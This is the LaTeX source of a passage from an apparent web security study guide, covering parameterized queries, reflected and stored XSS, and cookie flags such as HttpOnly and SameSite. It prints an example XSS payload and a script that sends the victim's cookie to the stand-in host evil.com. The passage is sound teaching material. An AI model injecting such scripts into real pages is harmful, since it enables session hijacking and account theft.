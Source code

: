 \documentclass[12pt,openany]{book}
\begin{document}
\textbf{Fix:} always use parameterized queries (prepared statements). The database treats user input as data, never as SQL code.

\begin{lstlisting}
cursor.execute("SELECT * FROM users WHERE user=? AND pass=?", (username, password))\end{lstlisting}

\medskip

\subsection*{Cross-site scripting (XSS)}
{\small\itshape\color{gray}Ch 10 §10.5 --- injecting scripts into web pages}

Reflected XSS
Payload is in the URL. Server reflects it back in the page immediately.
\texttt{https://site.com/search?q=\textless{}script\textgreater{}alert(1)\textless{}/script\textgreater{}}
Victim must click the malicious link.

Stored XSS
Payload saved in the database (e.g., a comment).
Runs in every visitor's browser that views the page.
No special link needed --- far more dangerous.

What attackers do with XSS:


\begin{lstlisting}
<script>document.location='https://evil.com/steal?c='+document.cookie</script>\end{lstlisting}

{\small\itshape\color{gray}This script sends the victim's session cookie to the attacker's server. The attacker then uses that cookie to impersonate the victim without knowing their password.}

\medskip

\subsection*{Session hijacking and cookie flags}
{\small\itshape\color{gray}Ch 10 §10.7}

After you log in, the server gives your browser a session cookie. Whoever holds that cookie controls your account.


\begin{center}\small\begin{tabular}{p{4.3cm}p{4.3cm}p{4.3cm}}\toprule
\textbf{Cookie flag} & \textbf{What it does} & \textbf{Protects against} \\ \midrule
\texttt{HttpOnly} & JavaScript cannot read the cookie & XSS cookie theft \\
\texttt{Secure} & Cookie only sent over HTTPS & Network eavesdropping \\
\texttt{SameSite=Strict} & Cookie not sent on cross-site requests & CSRF \\
\bottomrule\end{tabular}\end{center}
\end{document}
